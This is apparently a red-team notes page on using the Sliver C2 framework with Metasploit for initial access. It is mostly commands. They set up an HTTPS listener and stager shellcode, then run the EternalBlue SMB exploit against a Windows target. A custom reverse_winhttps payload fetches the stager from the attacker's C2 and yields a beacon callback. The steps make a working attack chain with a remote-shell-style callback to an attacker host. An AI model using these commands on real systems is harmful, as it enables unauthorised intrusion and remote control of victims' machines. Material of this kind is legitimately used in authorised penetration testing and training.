 ```yaml
---
author(s):
  - Userware
tags:
  - initial-access
  - exploitation
  - sliver
  - windows
---
```

# Sliver

> [!NOTE]
> This section is subjected to change with different exploits as they get patched as time passes.

This is similar to [[06 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x00 - Exploitation/0xF - Remote Services Exploitation/Exploit Vulnerable Service/Cobalt Strike|cobalt strike]] exploitation setup. However, it requires less effort to exploit the vulnerable services.

```
sliver > https -l 443

sliver > profiles new beacon -b https://<IP> -S 5 -J 10 -l -a x64 -o windows -f shellcode stager-shellcode
```

Depending on the listener (or shell handler) type. If the schema is set to HTTPS (`https://<attacker_IP>`) then use `windows/x64/custom/reverse_winhttps` as a payload in #metasploit-framework for an HTTPS stager. If the schema doesn't have TLS encryption (`http://<attacker_IP>`) then use `windows/x64/custom/reverse_winhttp` for an HTTP stager.

```
sliver > stage-listener -u http://<IP>:8080 -P -p stager-shellcode
```

We'll be using eternablue as an example.

```
msf6 > use exploit/windows/smb/ms17_010_eternalblue
```

Depending on the listener (or shell handler) type. Set the payload to `windows/x64/custom/reverse_winhttps` for an HTTPS beacon network traffic. If you're using HTTP beacon network traffic without TLS (encrypted packets) then set the payload to `windows/x64/custom/reverse_winhttp`. You're not really delivering `meterpreter` session.

```
msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/custom/reverse_winhttps

msf6 exploit(windows/smb/ms17_010_eternalblue) > options
```

Set the target's IP address.

```
msf6 exploit(windows/smb/ms17_010_eternalblue) > set rhosts <target_IP>
```

Specify the C2's IP address and port. This will receive from a sliver's payload staging. You’re telling #metasploit-framework in this case to download an HTTPS stager from sliver.

```
msf6 exploit(windows/smb/ms17_010_eternalblue) > set lhost <sliver_C2_IP>

msf6 exploit(windows/smb/ms17_010_eternalblue) > set lport 8080

msf6 exploit(windows/smb/ms17_010_eternalblue) > set luri /beacon.woff
```

Exploit the target and you should receive an agent callback on your C2.

```
msf6 exploit(windows/smb/ms17_010_eternalblue) > run
```